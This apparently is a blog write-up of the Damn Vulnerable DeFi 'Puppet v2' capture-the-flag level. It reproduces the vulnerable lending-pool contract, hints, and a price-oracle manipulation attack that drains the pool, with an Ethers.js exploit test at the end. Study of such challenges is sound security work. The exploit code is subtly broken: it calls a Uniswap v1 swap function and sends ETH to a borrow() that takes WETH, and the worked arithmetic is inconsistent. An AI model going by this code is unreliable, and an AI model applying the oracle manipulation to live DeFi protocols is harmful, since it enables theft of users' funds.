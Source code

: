 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 9: Puppet v2'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our ninth challenge is called 'puppet v2' and it comes with the following prompt:

```
The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!

Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)
```

Once more, our mission is to drain the lending pool!

The contracts for this challenge are located in contracts/puppet-v2/. The contract source code can be found below:

<details>
<summary> PuppetV2Pool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external returns (uint256);
}

/**
 * @title PuppetV2Pool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetV2Pool {
    using SafeMath for uint256;

    address private _uniswapPair;
    address private _uniswapFactory;
    IERC20 private _token;
    IERC20 private _weth;
    
    mapping(address => uint256) public deposits;
        
    event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);

    constructor (
        address wethAddress,
        address tokenAddress,
        address uniswapPairAddress,
        address uniswapFactoryAddress
    ) public {
        _weth = IERC20(wethAddress);
        _token = IERC20(tokenAddress);
        _uniswapPair = uniswapPairAddress;
        _uniswapFactory = uniswapFactoryAddress;
    }

    /**
     * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and borrowed token have same amount of decimals.
     */
    function borrow(uint256 borrowAmount) external {
        require(_token.balanceOf(address(this)) >= borrowAmount, "Not enough token balance");

        // Calculate how much WETH the user must deposit
        uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);
        
        // Take the WETH
        _weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

        // internal accounting
        deposits[msg.sender] += depositOfWETHRequired;

        require(_token.transfer(msg.sender, borrowAmount));

        emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount, block.timestamp);
    }

    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return _getOracleQuote(tokenAmount).mul(3) / (10 ** 18);
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
            _uniswapFactory, address(_weth), address(_token)
        );
        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
    }
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Just like the last level, this one is all about manipulating the uniswap pool. Only this time, we are using uniswap v2! What is wrong with the way the `calculateDepositOfWETHRequired()` function calculates the price of the token?
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
Useful resources:

https://uniswap.org/blog/uniswap-v2
https://docs.uniswap.org/protocol/V2/reference/smart-contracts/router-02
https://github.com/Uniswap/v2-periphery/blob/master/contracts/UniswapV2Router02.sol
https://github.com/Uniswap/v2-periphery/blob/master/contracts/libraries/UniswapV2Library.sol
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Just like last time, we can see that the loans are offered based on the value returned by a function. This time it's the `calculateDepositOfWETHRequired()` function. This in turn calls `_getOracleQuote` which returns a value from `UniswapV2Library.quote()`. The parameters passed into the quote are the amount of reserves of each of the WETH and DVT pair held by our uniswap v2 exchange. In the end, this return value is multipled by 3 in order to provide a collateralization requirement of 3x. When we run it through the first time, we can see that `10 WETH / 100 DVT = 0.1 * borrowAmount * 3` is our return value for `calculateDepositOfWETHRequired()`. If we want to return a lower amount of WETH required, we want to manipulate the exchange pool such that there is less WETH and more DVT. Reading through the documentation and source code as linked in the above hint, we can find the perfect function to do so: `swapExactTokensForETH()`. Below is the code from github:
```
function swapExactTokensForETH(uint amountIn, uint amountOutMin, address[] calldata path, address to, uint deadline)
        external
        virtual
        override
        ensure(deadline)
        returns (uint[] memory amounts)
    {
        require(path[path.length - 1] == WETH, 'UniswapV2Router: INVALID_PATH');
        amounts = UniswapV2Library.getAmountsOut(factory, amountIn, path);
        require(amounts[amounts.length - 1] >= amountOutMin, 'UniswapV2Router: INSUFFICIENT_OUTPUT_AMOUNT');
        TransferHelper.safeTransferFrom(
            path[0], msg.sender, UniswapV2Library.pairFor(factory, path[0], path[1]), amounts[0]
        );
        _swap(amounts, path, address(this));
        IWETH(WETH).withdraw(amounts[amounts.length - 1]);
        TransferHelper.safeTransferETH(to, amounts[amounts.length - 1]);
    }
``` 
Ok, so let's see what happens when we put in all of our attacker's DVT.


```
ETH_Pool = 10
DVT_Pool = 100

Invariant = 10*100 = 1000

Fee = 10000 * 0.003 = 30 DVT
DVT_Pool = 100 + 10000 = 10100
ETH_Pool = 1000 / 10070 = 0.099 ETH

Attacker receives: 10 - 0.099 ETH = 9.901 ETH
Attacker ETH balance: 29.901
Attacker DVT balance: 0

calculateDepositOfWETHRequired() = 0.099/10070 = 0.00000983118 * 3 = 0.00002949354

depositOfWETH Required = tokenAmount * 0.00002949354

if tokenAmount = 1000000, depositOfWETH Required = 1000000 * 0.00002949354 = 29.49 WETH

```
Performing the swap with all of our tokens, we can see that we will be left with more ETH than is required to drain the entire lending pool of DVT. We will, however, have to remember to convert the ETH to WETH, but then we can call `borrow()` with the tokenAmount of 1000000 and we will obtain all of the funds of the lending pool!

</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        let deadline = (await ethers.provider.getBlock('latest')).timestamp * 2
        await this.token.connect(attacker).approve(this.uniswapExchange.address,ATTACKER_INITIAL_TOKEN_BALANCE);
        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE.sub(1), 1, deadline);
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value: ethers.utils.parseEther('20')});
    });
```
</div>
</details>
